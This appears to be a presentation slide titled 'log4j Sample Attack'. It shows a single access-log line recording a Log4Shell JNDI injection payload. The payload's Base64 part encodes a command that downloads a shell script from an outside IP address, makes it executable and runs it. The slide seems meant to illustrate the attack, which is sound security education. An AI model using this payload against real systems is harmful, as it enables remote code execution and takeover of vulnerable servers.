

# log4j Sample Attack
45.137.21.9 - - [11/Dec/2021:02:35:55 +0000] "POST / HTTP/1.1" 301 231 "-" "${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}”